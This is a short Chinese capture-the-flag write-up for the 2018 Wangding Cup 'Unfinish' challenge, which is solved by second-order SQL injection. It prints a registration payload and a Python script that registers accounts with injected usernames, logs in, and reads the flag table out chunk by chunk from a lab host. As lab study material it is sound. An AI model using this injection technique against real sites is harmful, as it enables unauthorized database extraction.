



# [网鼎杯2018]Unfinish



## 知识点

- 二次注入

## 解题

​	register.php进行注册

payload:

```sql
email=2@1&username=0'%2Bsubstr((select hex(hex(database()))) from 1 for 10)%2B'0&password=1
```


`3737363536`进行两次hex解码



```python
from typing import Counter
import requests
import time

login_url='http://78827edf-d5bf-44fa-97ec-b1d89a836364.node3.buuoj.cn/login.php'
register_url='http://78827edf-d5bf-44fa-97ec-b1d89a836364.node3.buuoj.cn/register.php'
content=''
for i in range(1,20):
    data_register={'email':'15@%d'%i,'username':"0'+( substr(hex(hex((select * from flag ))) from (%d-1)*10+1 for 10))+'0"%i,'password':'1'}
    data_login={'email':'15@%d'%i,'password':'1'}
    requests.post(register_url,data_register)
    rr=requests.post(login_url,data_login)
    rr.encoding='utf-8'
    r=rr.text
    location=r.find('user-name')
    count=r[location+17:location+42].strip()
    content+=count
    print(count)
    time.sleep(1)
print(content)
```


